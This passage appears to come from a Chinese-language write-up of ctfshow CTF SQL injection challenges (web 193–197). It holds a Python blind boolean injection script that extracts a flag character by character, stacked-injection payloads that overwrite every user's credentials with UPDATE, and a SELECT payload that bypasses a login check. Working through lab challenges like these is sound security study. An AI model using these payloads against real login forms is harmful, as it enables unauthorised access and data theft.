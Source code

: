 ```python
        # }

        #跑列名
        # data={
        #     'username':f"'||if((mid((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))='{j}',1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if((mid((select f1ag from ctfshow_flxg),{i},1))='{j}',1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=j  
            print(flag)
            break
```

## web 194

禁用了left,right函数，那上一题应该是考察left,right函数了

left(str,length)

left函数从左截取字符串，right函数从右截取字符串

这题还是用上题脚本跑了

## web 195

堆叠注入，给sql添加上自己的sql语句。过滤了空格和空格的绕过方式，还可以使用圆括号反引号包裹字段名，分号结束语句。通过update语句把用户名密码都修改为1，登录

```sql
1;update(ctfshow_user)set`username`=1;
1;update(ctfshow_user)set`pass`=1;
```

## web 196

这题select实际没有过滤

题目查询语句

```php
$sql = "select pass from ctfshow_user where username = {$username};";
```

添加下面的sql语句实现堆叠注入后，row[0]=1，此时，$row[0]==$password密码验证时就需要登入密码=1了
```sql
1;select(1)
```

## web 197 - 200
